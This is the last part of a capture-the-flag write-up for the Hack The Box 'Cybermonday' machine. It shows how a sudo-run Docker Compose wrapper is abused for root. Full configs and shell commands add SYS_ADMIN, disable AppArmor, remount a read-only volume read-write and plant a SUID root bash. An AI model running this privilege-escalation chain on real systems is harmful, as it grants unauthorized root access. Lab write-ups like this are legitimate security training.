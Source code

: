 # HTB Cybermonday - Composing Root Access

[Initial Enumeration](htb-cybermonday-1-initial-enumeration.md)
[Webhook API Admin Access](htb-cybermonday-2-webhook-api-admin.md)
[Obtaining More Info](htb-cybermonday-3-obtaining-more-info.md)
[Gaining a Foothold](htb-cybermonday-4-gaining-a-foothold.md)
[Where to Now?](htb-cybermonday-5-where-to-now.md)
[Reading the Source](htb-cybermonday-6-reading-the-source.md)
[**Composing Root Access**](htb-cybermonday-7-composing-root-access.md)

Okay, I know that getting to user was a slog, but getting root is much easier, I promise. Look this is the last part left. After doing our initial enumeration again, we don't find much that could be exploited except for a Python script called `secure_compose.py`. We're able to read the file so let's view it and see what's going on.
```python
#!/usr/bin/python3
import sys, yaml, os, random, string, shutil, subprocess, signal

def get_user():
    return os.environ.get("SUDO...
```

It looks like this script takes a docker-compose.yml file from a user, builds any images in it, and runs the containers. What makes it secure is the fact that you're unable to create privileged containers, and all file mounts are restricted to specific places and must be read only. It also checks you're not cheating the file location using a Symlink. Lucky for us this is all it checks, and Docker has a number of features that let us abuse this script to gain root. In our case, we're simply going to create a SUID `bash` executable that will let us gain a root shell. But how are we going to do that if all our mounts are read only? Well remount them as read/write of course.

First we need to prepare a `docker-compose.yml`, `Dockerfile`, and `run.sh` file for our container. In theory you could do everything in the `docker-compose` but we're going to keep each part separate and simple so it's clear what's happening. In order to remount a directory, we need to give our container the `SYS_ADMIN` capability and add the security option `apparmor:unconfined`. As for the image to use, we'll go back to our trusty `cybermonday_api` since we know the host is already running it. As the script copies our `docker-compose` file to a temporary folder, we'll need to specify the location of the `Dockerfile`.

So our `docker-compose.yml` should look like:
```yaml
version: '3'
services:
  exploit:
    build: /home/john/docker
    volumes:
      - /home/john/docker:/mnt:ro
    cap_add:
      - SYS_ADMIN
    security_opt:
      - apparmor:unconfined
```

Our `Dockerfile` should look like:
```dockerfile
FROM cybermonday_api:latest
COPY run.sh /opt/run.sh
CMD /bin/sh /opt/run.sh
```

And finally for our script we'll run:
```shell
$ mount -o remount,rw /mnt
$ cp /bin/bash /mnt/bash
$ chown root:root /mnt/bash
$ chmod 4777 /mnt/bash
```

Upload these all to a folder called `docker` in the home directory for `john`. It's easier to keep track of everything that way and we can just delete the folder to clean up once we're done so it's not spoilt for the next person. Once you're got everything ready it's time to run secure compose. 
```shell
$ sudo /opt/secure_compose.py docker-compose.yml
```

`ls` our directory and we should see a shiny new `bash` executable. Let's try running it now.
```shell
$ ./bash -p

./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found...
```

Oh dear. It looks like the `cybermonday_api` image uses a different version of `glibc`. Not to worry, there is one place where we know that we have a working copy of `bash`; the host itself. Let's change our `run.sh` script slightly.
```shell
$ mount -o remount,rw /mnt
$ chown root:root /mnt/bash
$ chmod 4777 /mnt/bash
```

Then we just copy `bash` into our `docker` directory, and run the `secure_compose` script again.
```shell
$ cp /bin/bash ~/docker
$ sudo /opt/secure_compose.py docker-compose.yml
$ ./bash -p

bash-5.1# whoami
root
```

Copy the root flag from `/root/root.txt` and delete the `~/docker` directory, then celebrate that you've finished this machine.